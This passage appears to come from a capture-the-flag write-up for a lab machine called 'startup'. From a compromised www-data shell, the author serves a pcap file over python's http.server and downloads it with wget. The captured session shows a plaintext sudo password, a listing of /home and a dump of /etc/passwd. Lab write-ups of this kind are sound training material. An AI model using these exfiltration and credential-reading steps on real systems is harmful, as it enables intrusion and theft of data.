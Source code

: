 ```r
www-data@startup:/incidents$ python3 -m http.server
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 ...
10.6.26.125 - - [10/Feb/2024 01:16:34] "GET /suspicious.pcapng HTTP/1.1" 200 -
^C
```

then on our local machine we run
```r
wget http://10.10.232.226:8000/suspicious.pcapng
--2024-02-09 20:16:34--  http://10.10.232.226:8000/suspicious.pcapng
Connecting to 10.10.232.226:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31224 (30K) [application/octet-stream]
Saving to: ‘suspicious.pcapng’

suspicious.pcapng            100%[============================================>]  30.49K  --.-KB/s    in 0.1s    

2024-02-09 20:16:34 (307 KB/s) - ‘suspicious.pcapng’ saved [31224/31224]
```

Since it is a pcap file, we will use wireshark to open the file.
``Wireshark suspicious.pcapng``

In wireshark use the ``Analyze`` tab and ``follow the TCP stream``

```r
boot  home	  lib		  mnt	 root	     srv   vagrant
data  incidents   lib64		  opt	 run	     sys   var
dev   initrd.img  lost+found	  proc	 sbin	     tmp   vmlinuz
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
www-data@startup:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```